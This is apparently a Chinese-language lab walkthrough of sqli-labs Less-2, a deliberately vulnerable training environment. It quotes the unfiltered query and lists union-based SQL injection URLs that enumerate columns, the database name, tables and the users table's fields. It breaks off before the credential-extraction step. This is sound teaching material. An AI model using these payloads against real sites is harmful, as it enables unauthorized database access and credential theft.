

SQL-Lib_Less2
查看源代码
本地环境试验访问地址：http://192.168.72.179/sqli-labs/Less-1/?id=1
查询语句
$sql=”SELECT * FROM users WHERE id=$id LIMIT 0,1”;
可以看到这里并没有对id进行过滤，并且查询的是整数并以双引号闭合
所以可以得知，整数注入可以直接和上面一篇一样注入，但无需闭合
爆破字段
http://192.168.72.179/sqli-labs/Less-2/?id=1 order by 1
http://192.168.72.179/sqli-labs/Less-2/?id=1 order by 2
http://192.168.72.179/sqli-labs/Less-2/?id=1 order by 3
http://192.168.72.179/sqli-labs/Less-2/?id=1 order by 4（到这里报错说明4是最大字段数）
联合查询
http://192.168.72.179/sqli-labs/Less-2/?id=-1 union select 1,2,3
发现了上面的三个字段的输出位置
爆破数据库
http://192.168.72.179/sqli-labs/Less-2/?id=-1 union select 1,2,database()
得到了当前数据库为security
爆破security数据库表
http://192.168.72.179/sqli-labs/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=”security”
得到了emails,referers,uagents,users四张表
爆破users表中的字段
http://192.168.72.179/sqli-labs/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=”security” and table_name=”users”

得到了id,username,password 三个字段
提取字段中的username和password内容
